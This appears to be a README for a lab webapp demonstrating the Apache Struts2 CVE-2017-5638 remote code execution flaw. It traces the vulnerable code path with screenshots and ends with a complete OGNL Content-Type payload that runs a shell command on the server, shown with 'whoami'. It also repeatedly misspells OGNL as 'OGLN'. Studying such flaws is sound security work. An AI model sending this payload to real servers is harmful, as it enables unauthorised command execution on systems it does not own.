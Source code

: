 # Apache Struts2 Vulnerability | CVE-2017-5638 | Struts2 Version 2.5

## Instructions

To simply run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

## The Breakdown

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGLN expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OglnTextParser.class, which simply interprets the OGLN expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPartRequest.class parser method
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

The OGLN expression from the Content-Header is then passed into the 'parse' method.

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

During the parsing attempt, an exception is thrown as it is unable to parse the OGLN expression, and ends up in JakartaMultiPartRequest.class buildError method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The buildError method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class findText method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The LocalizedTextUtil.class findText method will in turn call getDefaultMessage and pass in the Content-Header information

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class translateVariables method delegates to the OglnTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGLN expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

### The Payload
This payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)

The payload can be executed through CURL or POSTMAN

Content-Type :  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
                      
                      